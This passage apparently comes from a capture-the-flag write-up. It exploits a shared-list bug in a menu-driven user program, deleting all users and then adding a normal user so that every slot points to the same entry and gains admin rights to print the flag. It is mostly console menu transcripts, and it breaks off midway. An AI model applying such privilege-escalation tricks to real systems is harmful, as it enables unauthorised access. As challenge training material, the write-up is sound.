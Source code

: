 ```console
        7) exit

choose an option(0-7):
>> 3
choose user slot(0-7)
        0) Admin
        1) Admin
        2) Admin
        3) Admin
        4) Admin
        5) Admin
        6) Admin
        7) Admin
```

Now, in order to print the flag, we need `users[logged_in][IS_ADMIN_ID]` to be true. Here's how we achieve that using the bug we found.

First, we delete all users to make all slots refer to the same list:

```
welcome!
(you are not logged in)
please select an option:
        0) get flag!
        1) add admin user
        2) add normal user
        3) login
        4) logout
        5) delete user
        6) delete all users
        7) exit

choose an option(0-7):
>> 6
all users deleted

```

Then, we create a normal user:

```
welcome!
(you are not logged in)
please select an option:
        0) get flag!
        1) add admin user
        2) add normal user
        3) login
        4) logout
        5) delete user
        6) delete all users
        7) exit

choose an option(0-7):
>> 2
choose user slot(0-7)
        0) None
        1) None
        2) None
        3) None
        4) None
        5) None
        6) None
        7) None
>> 0
```